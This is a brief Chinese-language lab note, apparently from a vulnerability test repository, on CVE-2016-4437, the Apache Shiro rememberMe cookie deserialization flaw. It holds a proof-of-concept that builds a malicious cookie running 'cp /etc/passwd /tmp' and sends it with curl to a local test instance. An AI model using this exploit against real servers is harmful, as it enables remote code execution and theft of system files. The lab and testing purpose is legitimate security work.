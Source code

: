 ### CVE-2016-4437 - Shiro rememberMe cookie 固定秘钥反序列化漏洞

测试镜像

* src/shiro/1.2.4/

参考链接

* [Apache Shiro Java 反序列化漏洞分析](http://blog.knownsec.com/2016/08/apache-shiro-java/)

Poc

```
# 使用 jdku21 gadget

python2.7 /root/build-cookie.py "cp /etc/passwd /tmp"
curl 127.0.0.1/shiro/ -H "Cookie: $(cat /tmp/cookie.txt)"
```

